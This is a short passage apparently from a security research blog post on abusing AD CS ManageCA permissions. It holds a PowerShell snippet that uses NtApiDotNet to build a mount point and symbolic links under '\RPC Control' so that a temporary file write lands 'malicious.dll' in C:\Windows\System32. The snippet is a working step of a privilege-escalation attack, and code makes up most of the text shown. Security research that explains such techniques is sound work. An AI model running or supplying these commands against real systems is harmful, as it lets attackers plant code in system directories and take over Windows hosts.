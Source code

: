 <img src="/assets/posts/2023-12-03-ad-cs-new-ways-to-abuse-manageca-permissions/image-20231203185953148.png" alt="image-20231203185953148" style="zoom:67%;" />

This step can be accomplished by executing the following powershell cmdlet:

```powershell
Import-Module ".\NtApiDotNet.dll" -ErrorAction Stop

[NtApiDotNet.NtFile]::DeleteReparsePoint("\??\C:\Workspace\Mountpoint\")
[NtApiDotNet.NtFile]::CreateMountPoint("\??\C:\Workspace\Mountpoint\", "\RPC Control", $null)
$SymbolicTarget = [NtApiDotNet.NtSymbolicLink]::Create("\RPC Control\target.txt", "\??\C:\Windows\System32\malicious.dll")
$SymbolicSource = [NtApiDotNet.NtSymbolicLink]::Create("\RPC Control\pre63F0.tmp", "\??\C:\Workspace\malicious.dll")
```
